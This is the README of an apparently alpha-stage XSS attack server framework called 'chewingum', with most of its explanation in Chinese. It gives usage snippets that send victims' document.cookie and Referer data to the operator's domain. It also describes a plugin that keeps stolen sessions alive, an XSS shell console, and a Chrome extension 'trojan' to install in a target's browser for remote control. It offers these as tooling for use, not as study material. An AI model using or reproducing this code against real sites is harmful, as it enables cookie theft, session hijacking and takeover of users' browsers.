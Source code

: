 # Chewingum [alpha][0.2][1140214]

Name
----
**chewingum - individual XSS server framework**

Startup
-------
    python ./config.py install [ domain salt filekeyPath | -h ]
    python ./chewingum.py [ -h | host port debug ]

Dependencies
------------
* [Bottle-0.11](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket/)
* [GeventWebSocketServer](http://sdiehl.github.io/gevent-tutorial/)


  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* (Gum.js) - [xss.js](http://zone.wooyun.org/content/2113)
           - [BeEF](http://beefproject.com/)

Helptext
--------

+ 1.login

采用filekey验证, 上传filekey或输入URL便可登录.

+ 2.server

server处代码会直接在项目触发时执行,  
最终会将变量serverinfo和变量browserinfo保存至数据库,  
格式需为json/dict格式

    {'name':'value'}

如:

    serverinfo = {
	    'referer':b64encode(str(request.headers.get('Referer'))),
    	'ctime':b64encode(str(ctime()))
	}
	browserinfo = {
    	'cookie':b64encode(str(request.forms.get('cookie')))
	}

+ 3.server code keyword

iferror  
对变量iferror赋值, 会触发对应错误.  
如:
>	iferror = 404

returns  
对变量returns赋值，在iferror为空的情况下, 会返回对其赋值的内容.  
如:
>	returns = '<script>alert(1)</script>'

gum.backinfo  
客户端的关键字，是一个字典，默认用来暂时记录返回的信息。  
当返回之后最好清空它。
>   gum.backinfo = {};

+ 4.project name and object name

project 的项目名需是xss触发处的url或是domain.  
$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

	object 的项目名可随意更改.

+ 5.plugins

可以这样导入server扩展,

	with open('./plus/get_info.py') as files: exec files.read()

也可以这样

    from plus.email_remind import send_mail
    send_mail(gum_emailremind)

    具体看扩展的写法

可以这样导入browser插件,

	gum.script('http://' + gum.domain + '/static/plus/tool_boomerang.js')


这样给browser插件传参,

	gum_boomerang = {
		'object_url':'http://localhost/xss',
		'post':{'xss':'yes', 'csrf':'no'},
		'eval':function(){alert(1)}
	}

同样的方法给server扩展传参,

	gum_keepsession = {
		'url':referer,
		'session':cookie,
		'data':{'a':'b'},
		'frequency':300,
		'endate':'2013-12-12 15:17:00'
	}

+ 6.set code

这样发送browser info,

    gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

单次接收browser info可以参考上面的2.server  
也可以这样

    browserinfo['infoname'] = b64encode(str(request.forms.get('infoname')))

多次接收browser info可以像这样,

    info_cookie = str(request.forms.get('cookie'))
	sessionid[referer][1]['cookie'] = info_cookie
	browserinfo = b64encode(sessionid.get(referer))

+		不推荐使用多次接收，默认已关闭。

+ 7.other

使用基本探针:

server:

    with open('./plus/get_info.py') as files: exec files.read()

browser:

    gum.script('http://' + gum.domain + '/static/plus/get_info.js', function(){
        gum.post('http://' + gum.domain + '/ing', gum.backinfo);
        gum.backinfo = {};
    })

+ 8.console

javascript文件在

    ./static/plus/onexsshell.js

    尚在测试阶段。

+ 9.browser trojan

chrome  
修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口  
使用chrome or chromium打包  
安装在目标的浏览器后，使用console即可操作目标浏览器。  

    尚在测试阶段
